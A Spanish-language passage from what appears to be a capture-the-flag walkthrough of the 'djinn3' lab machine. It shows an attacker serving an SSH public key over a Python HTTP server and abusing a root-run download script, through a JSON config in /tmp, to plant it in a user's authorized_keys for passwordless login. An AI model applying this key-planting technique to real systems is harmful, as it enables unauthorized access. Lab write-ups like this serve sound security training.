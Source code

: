 - ¿Pero qué vamos a descargar? se preguntarán, y es válida la cuestión; en la fase de reconocimiento vimos que está abierto el puerto 22 (SSH) así que podemos suponer que existe un directorio ".ssh" en cada usuario del sistema; lo que haremos es almacenar un archivo "authorized_keys" dentro del directorio "/home/saint/.ssh/" que contenga uan clave pública generada por nuestro usuario del sistema de nuestra máquina atacante con la finalidad de tener acceso SSH a la máquina atacante como el usuario "saint" sin proporcionar contraseña.

- Primero creamos la clave pública en nuestra máquina atacante:

```bash
$ssh-keygen

ENTER
ENTER
ENTER
```

- Ahora, nos dirigemos al directorio en el que se generó la `clave pública SSH` (en mi caso siendo el usuario root) y creamos un servidor simple con python para que la máquina víctima tenga acceso a este archivo.

```bash
$python3 -m http.server 80
```

- Entonces, en el directorio "/tmp" de la máquina víctima nos creamos un archivo llamado `"23-12-2022.config.json"` (Habiendo analizado el punto 7 de las conclusiones) con el siguiente contenido json:

```bash
$nano 23-12-2022.config.json
```


```json
{
	"URL":"http://192.168.1.35/id_rsa.pub",
	"Output":"/home/saint/.ssh/authorized_keys"
}
```

- Ahora esperamos a que se ejecute la script en segundo plano que habíamos visto en el `pspy` y se descargará nuestro archivo "id_rsa.pub" en la máquina atacante y se almacenará en el directorio "/home/saint/.ssh/authorized_keys"; lo podemos confirmar viendo la petición GET recibida en nuestro servidor de python.


- Cuando veamos que se haya descargado nuestro archivo, podremos acceder por SSH desde nuestra máquina atacante como el usuario `"saint"` sin contraseña:

```bash
$ssh saint@192.168.1.51
```

- Siendo el usuario "saint" revisamos permisos de `sudoers` y vemos lo siguiente:

```js
User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```
